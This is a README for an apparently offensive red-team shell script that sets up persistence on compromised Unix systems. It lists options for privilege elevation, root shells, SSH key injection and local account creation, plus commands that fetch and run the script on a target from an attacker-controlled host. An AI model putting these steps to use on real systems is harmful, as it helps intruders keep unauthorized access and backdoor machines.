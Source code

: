 # Persistence Phase

Definition Persistence...

With this script it is possible to apply some persistence techniques to get a foothold on a system.

## Features

- Elevate privileges
- Create a root shell
- Modify ssh keys
- Create local user

## Usage

From github:
```sh
curl -LJO https://github.com/McSquizzy/red-team-toolbox/blob/main/persistence/persistence.sh
sh persistence.sh -h
```
Local network:
```sh
# Host:
sh persistence.sh -w
# Target:
curl -LJO <Host>:8000/persistence.sh
sh persistence.sh -h
```

### Parameters

```sh
sh persistence.sh -h

Usage: persistence.sh [options]

Options:
-h                Show this help message
-e <username>     Elevate privileges of the given user
                  Root needed!
-r                Create a root shell
                  Root needed!
-s <ssh pub key>  Trying to add ssh public key to authorized_keys of current user
                  Put the contents of your public key in quotes like: -s "ssh-rsa AAAAB3NcaDkL......"
-u <username>     Add a local account/user
                  Only useful in combination with -p parameter
                  Root needed!
-p <password>     Set this password to new or existent user
                  Root needed!
-w                Serves a local web server for transferring files

Output:
-q                Quiet. No banner and no advisory displayed
```

## Results

The results are printed directly to STDOUT.

## Compatibility

The script uses /bin/sh syntax and is fully POSIX compatible so can run on most unix-based (POSIX/Unix/Linux) systems. 
